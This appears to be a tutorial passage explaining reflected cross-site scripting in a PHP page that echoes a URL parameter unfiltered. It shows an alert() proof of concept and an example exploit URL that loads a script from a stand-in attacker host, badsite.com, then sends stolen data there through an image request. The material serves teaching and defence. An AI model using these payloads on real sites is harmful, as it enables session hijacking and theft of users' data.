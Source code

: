 So why is this an XSS vulnerability? The way the above code works is that it takes a value from the URL and writes it back to the browser, without validation or filtering. If your application is hosted at [https://example.com/test.php](https://example.com/test.php), a site visitor could visit the following URL:

> https://ejemplo.com/test.php?val=123

They will then see: "The value you entered is: 123" in their browser. Probably the way the application was designed to work.

If someone visits the following URL:

> https://example.com/test.php?val=<script>alert('Prove this is an XSS');</script>.

They will see the following in the browser, "The value you entered is:" and they will also see a pop-up alert box that says "Proves this is an XSS."

### Why is unfiltered output dangerous?

A demo that displays an alert box doesn't seem like much of a threat. If you don't fully understand the impact of an XSS vulnerability and someone reports this problem to you with an `alert()` box as a demonstration of the vulnerability, you may not take it seriously. How can proof that you can execute JavaScript be proof of a serious security problem?

When an analyst sends you an alert() box as proof of a security vulnerability, they are demonstrating that they can execute arbitrary JavaScript code in the browser. What they are really demonstrating is that by sending that URL to someone else, they can get that other person to execute arbitrary javascript in a browser.

### One version of an exploit might look like this

[https://example.com/test.php?val=<script](https://example.com/test.php?val=%3cscript) src="http://badsite.com/badscript.js"></script>

The attacker will send that link to a victim. The steps are as follows:

- The victim clicks on the link and visits the site. Let's assume they are already logged into the website with administrator level access.
- The link and the XSS vulnerability cause the script to load from an external website to the target web page.
- The script will have full access to the browser DOM environment, including any HTTP cookies that are not protected by the HttpOnly flag.
- The script performs a malicious action as a logged-in user. It also steals data from the website that the logged-in user can access (e.g., private messages that the user has received) and sends it to the attacker. The data can be sent in several ways, but one could be to load an image like this from an external website: [http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues](http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues). badPretendImage.jpg is a script that displays an image but also stores the received data.

That is the basic mechanism of exploiting an XSS vulnerability: an attacker finds a way to make a victim load their javascript using an XSS vulnerability in the website. They use it to steal data from browsers.

In the example above, we have loaded an external javascript file on the page. XSS vulnerabilities vary, and for a particular vulnerability, it may not be feasible to include <SCRIPT> tags that load a complete external script. If that doesn't work, what might work is to add javascript directly into the exploit that executes and performs some malicious action.
